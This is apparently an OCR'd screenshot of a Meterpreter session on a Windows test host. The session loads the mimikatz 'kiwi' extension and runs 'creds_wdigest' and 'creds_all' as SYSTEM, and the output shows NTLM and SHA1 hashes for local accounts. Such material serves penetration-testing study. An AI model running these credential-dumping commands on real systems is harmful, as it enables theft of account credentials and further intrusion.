 ```
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-NRCNIDN$  WORKGROUP        (null)
normal            DESKTOP-NRCNIDN  (null)
test              DESKTOP-NRCNIDN  (null)


meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-NRCNIDN  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-NRCNIDN  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-NRCNIDN$  WORKGROUP        (null)
normal            DESKTOP-NRCNIDN  (null)
test              DESKTOP-NRCNIDN  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-nrcnidn$  WORKGROUP        (null)
normal            DESKTOP-NRCNIDN  (null)
test              DESKTOP-NRCNIDN  (null)


```